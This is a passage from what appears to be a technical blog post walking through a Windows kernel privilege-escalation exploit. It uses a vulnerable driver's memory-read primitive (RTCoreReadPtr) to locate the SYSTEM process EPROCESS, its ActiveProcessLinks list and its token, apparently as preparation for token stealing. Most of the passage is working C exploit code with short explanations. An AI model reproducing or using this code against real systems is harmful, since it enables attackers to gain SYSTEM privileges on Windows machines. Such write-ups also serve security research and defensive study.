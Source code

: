 Once we have the kernel address of the *PsInitialSystemProcess*{: style="color: LightSalmon"} pointer, we can utilize our driver exploit to read its value.  
Below is an example how the functions we created are used to obtain the mentioned addresses. *lpPsInitialSystemProcess*{: style="color: LightSalmon"} is the kernel address of *PsInitialSystemProcess*{: style="color: LightSalmon"} which we need to read to get a pointer to the SYSTEM process *EPROCESS*{: style="color: LightSalmon"}. *lpInitialSystemProcess*{: style="color: LightSalmon"} is the value of that pointer.  

```c
lpKernelBase = GetKernelBaseAddress();
if (!lpKernelBase) {
	return FALSE;
}

dwPsInitialSystemProcessOffset = GetPsInitialSystemProcessOffset();
if (!dwPsInitialSystemProcessOffset)
	return FALSE;

lpPsInitialSystemProcess = GetKernelAddress(lpKernelBase, dwPsInitialSystemProcessOffset);

if (!RTCoreReadPtr(lpPsInitialSystemProcess, &lpInitialSystemProcess)) {
	PRINT_ERROR(L"[-] Couldn't read pointer for lpPsInitialSystemProcess\n");
	return FALSE;
}
```

Now that we have the address to *EPROCESS*{: style="color: LightSalmon"}, we can use the driver exploit again to read the pointers to the *ActiveProcessLinks*{: style="color: LightSalmon"} linked list and the Token from system process *EPROCESS*{: style="color: LightSalmon"} structure. Before reading, the structure field offsets (which depend on the Windows build) should be added to the *EPROCESS*{: style="color: LightSalmon"} address. I get the offsets from my lookup table.  

```c
if (!RTCoreReadPtr(lpInitialSystemProcess + ACTIVEPROCESSLINKS_OFFSET[WinVersion], &lpActiveProcessLinks)) {
	PRINT_ERROR(L"[-] Couldn't read pointer for lpActiveProcessLinks\n");
	return FALSE;
}
```

```c
ULONG_PTR GetTokenPointer(ULONG_PTR eprocess, WINDOWS_VERSION WinVersion) {
	ULONG_PTR Token;

	if (!RTCoreReadPtr(eprocess + TOKEN_OFFSET[WinVersion], &Token)) {
		PRINT_ERROR(L"[-] Couldn't read pointer for Token\n");
		return 0;
	}
	return Token;
}
```
To find the *EPROCESS*{: style="color: LightSalmon"} structure for our own process, we can traverse the *ActiveProcessLinks*{: style="color: LightSalmon"} doubly linked list, starting from the System process *EPROCESS*{: style="color: LightSalmon"}. We compare the *UniqueProcessId*{: style="color: LightSalmon"} of each structure with the process ID of our process. Once a match is found, we have successfully located our own *EPROCESS*{: style="color: LightSalmon"} structure.  
